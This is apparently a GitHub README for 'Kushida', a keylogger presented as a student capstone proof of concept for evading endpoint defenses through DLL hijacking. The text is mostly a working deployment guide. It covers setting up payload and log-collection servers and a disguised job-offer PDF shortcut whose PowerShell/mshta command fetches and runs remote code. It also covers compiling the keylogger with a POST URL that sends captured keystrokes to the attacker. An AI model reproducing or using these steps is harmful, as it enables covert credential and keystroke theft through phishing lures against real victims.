 # Kushida
This is the Kushida keylogger developed for my fall 2023 Bachelor's capstone project. It was developed for research and academic purposes.

Kushida is a keylogger written in C. It is a proof of concept for evading modern EDR and AV programs. It successfully evades many EDR solutions by using DLL hijacking.

# Setting up the server

The server should be a Linux server and needs to have Python 3 installed, and the victim needs to have the ability to initiate a TCP connection to the server. The libraries the server uses are part of the Python standard library.

Two services need to be run for this server:
1. The HTTP file service
2. The HTTP log collection service
To run the HTTP file service
1. Download the KeyloggerFiles Folder from the repository
2. Place the KeyloggerFiles folder in your file system (anywhere is fine).
3. Change directories into the KeyloggerFiles folder and run the following command:

```bash
sudo python3 -m http.server 80
```

If you want to background the process, you press CTRL+Z, then type bg. 

Next, to set up the HTTPS log collection service, we need to download the httpsServer folder from the repository.
1. Change directories inside the downloaded the httpsServer folder
2. Generate keys if needed
3. Then, run the Python file inside the folder with:
```bash
python3 httpsServer.py
```
Keys are provided in the repository, however, you can generate your own keys with the following openssl command:
```bash
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

The services should now be running on all interfaces. The ports that are used are port 80 for the HTTP file server and 8080 for the HTTPS server. These values can be modified if needed, however, you will also need to modify the ports of the malware accordingly.

# Building and running Kushida

## Google-Job-Offer.pdf.lnk
This is the malicious "PDF" which will present a PDF to the user and install Kushida.
Replace the IP address `192.168.12.95` with your server's IP address.
```PowerShell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "& start microsoft-edge:http://192.168.12.95/Google-Job-Offer.pdf; C:\Windows\System32\mshta.exe http://192.168.12.95/FileDownloader.hta"
```

## FileDownloader.hta
This script is downloaded by the lnk
Replace the IP address `192.168.12.95` with your server's IP address.
```javascript
var fileUrl1 = "http://192.168.12.95/cscapi.dll";  
var fileUrl2 = "http://192.168.12.95/libcurl-d.dll"; 
var fileUrl3 = "http://192.168.12.95/zlibd1.dll";
```

## cscapi.dll

This is the keylogger itself. To compile this, we need vcpkg installed.

Installation instructions can be found here: [Get started with vcpkg](https://vcpkg.io/en/getting-started.html)

Then open a command prompt, change directories to the vcpkg directory you installed, and enter the following command:
```
vcpkg.exe install curl[tool]
```

You may need to reload Visual Studio after installing libcurl.

Change the `POST_URL` definition to the URL your server uses. By default, just change the IP address. 
```
#define POST_URL "https://192.168.12.95:8080/file.txt"
```

Now, in Debug 64-bit mode, build the program using Visual Studio. You can also build the program in Release, however, you would have to change the names for `libcurl-d.dll` and `zlibd1.dll` to `libcurl.dll` and `zlib1.dll` respectively. 

If you need to target a 32-bit application, compile the DLL in 32-bit mode.

Now place the programs you have built into the KeyloggerFiles folder on your server.

# Kushida in action

![Pasted image 20231130001641](https://github.com/nszeto168/kushida/assets/103395342/8e7d322b-a74d-461a-9a6a-380653d11625)

The malicious and non-malicious PDFs are nearly identical.


![Pasted image 20231130001719](https://github.com/nszeto168/kushida/assets/103395342/c3e54f42-3513-4713-9fd0-032c603afccf)

The malicious LNK file will open a PDF for the victim, making it seem legitimate.

![Pasted image 20231130002042](https://github.com/nszeto168/kushida/assets/103395342/0b9c52b0-4fd0-4efb-947c-abe7265e651e)

![Pasted image 20231130002120](https://github.com/nszeto168/kushida/assets/103395342/f96268b6-07d4-4d84-aff9-218def0392f4)


The keylogging should start. Whenever Kushida starts up and is loaded into memory, it will execute DLLMain, which will send log.txt to the HTTPS server.
![Pasted image 20231130002157](https://github.com/nszeto168/kushida/assets/103395342/3bf41847-5141-4788-9ce4-33608da8fbfd)


# Kushida Solo (standalone exe)

There is a modified version of Kushida available which functions as a standalone exe file. This exe file can be useful because certain EDRs may be triggered by DLL hijacking or the malicious LNK file. However, the DLL hijacking method tends to be a stealthier solution long term because it makes far less "noise".

There are some benefits to Kushida Solo:
- With Kushida Solo, you do not need `libcurl-.dll` nor `zlibd1.dll`.
- Kushida Solo can be compiled either as a 32-bit or a 64-bit application.
- Kushida Solo may evade some defenses more effectively (generally Kushida as a DLL is better though).

## Building Kushida Solo
![Pasted image 20231130003706](https://github.com/nszeto168/kushida/assets/103395342/db46e388-9724-4d71-b7fe-7e2fcc6d94b1)


Change Kushida's send frequency in keylogger.h. By default, it is every 5 seconds. This makes a lot of noise and is not recommended, however, it is good for testing.

Also, change the hostname definition in keylogger.cpp
![Pasted image 20231130005729](https://github.com/nszeto168/kushida/assets/103395342/545ad103-0dce-44b8-8597-4e7168f99d76)


VisualStudio's build tool does not seem to work when compiling Kushida solo, so we can compile it with cl.exe

Change directories to the `keylogger` directory, then run:
```PowerShell
cl.exe keylogger.cpp /link /OUT:kushida.exe winhttp.lib user32.lib kernel32.lib
```

Now you should have a standalone executable. The executable generates a log file in the same directory as itself.
You will still need to run the HTTPS log collection server, however, you will not need the HTTP file server when using Kushida Solo.

# Results
![image](https://github.com/nszeto168/kushida/assets/103395342/880607eb-b469-408e-bfaf-10a3e30f9f1e)

Thanks for checking out the Kushida keylogger, I hope you enjoyed it!
